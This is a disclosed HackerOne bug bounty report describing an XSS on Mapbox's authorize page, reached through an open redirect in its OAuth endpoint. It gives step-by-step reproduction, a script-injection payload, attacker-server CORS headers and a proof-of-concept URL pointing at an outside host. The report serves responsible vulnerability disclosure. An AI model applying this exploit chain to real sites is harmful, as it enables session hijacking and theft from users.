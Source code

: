 # XSS on www.mapbox.com/authorize/ because of open redirect at /core/oauth/auth

## Report Details
- **Report ID**: 143240
- **URL**: https://hackerone.com/reports/143240
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-05T20:23:44.276Z
- **Disclosed**: 2017-08-14T17:19:31.620Z

## Reporter
- **Username**: stefanovettorazzi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mapbox

## Vulnerability Information
Description
---
When you load the endpoint https://www.mapbox.com/authorize/ a GET request is made to the endpoint https://www.mapbox.com/core/oauth/auth with the parameters passed in the request to https://www.mapbox.com/authorize/. 
If you only send the parameter __redirect_uri__ in the request to https://www.mapbox.com/core/oauth/auth, the response from the server is a 302 redirect to the value passed in the parameter __redirect_uri__.
If the response from the latest request (after the redirect) is valid like:
```json
{
  "authorize_url": "/authrozie/...",
  "stage": "authorize",
  "user": {
    "name": "some-name",
    "extraTm2z": 1
  },
  "origin": ""
}
```
the content is used to render the template __template-modal-oauth__ in https://www.mapbox.com/authorize/.

The problem is that the value of the property `"authorize_url"` is not escaped when passed to the template
```html
<form id='oauth' method='post' action='<%=App.api + obj.authorize_url%>' class='col6 modal-body fill-white'>
...
```
which allows to break the `<form>` using `'>` and insert HTML and Javascript code.

Reproduction steps
---
1. Create a file with this content in a server that supports __https://__

      ```json
      {
        "authorize_url": "'><script>alert(document.domain);</script>",
        "stage": "authorize",
        "user": {
          "name": "nombre",
          "extraTm2z": 1
       },
       "origin": ""
     }
     ```

2. Set these headers to be returned in the response when serving the file (I don't specify how because it varies from server to server and language)

      ```
      Access-Control-Allow-Origin: https://www.mapbox.com
      Access-Control-Allow-Credentials: true
      Access-Control-Allow-Headers: x-requested-with
      ```

3. Load the following URL on Chrome, Safari, Firefox, Internet Explorer 11, or Edge

      ```
      https://www.mapbox.com/authorize/?redirect_uri=[url_to_file_created_in_step_1]
      ```

4. `alert(document.domain)` is executed

Proof of concept
---
Load the following URL on Chrome, Safari, Firefox, Internet Explorer 11, or Edge
```
https://www.mapbox.com/authorize/?redirect_uri=https://u00f1.xyz/mapbox/oauth.json
```

I'm going to do a screen recording and upload it.

## Attachments
No attachments
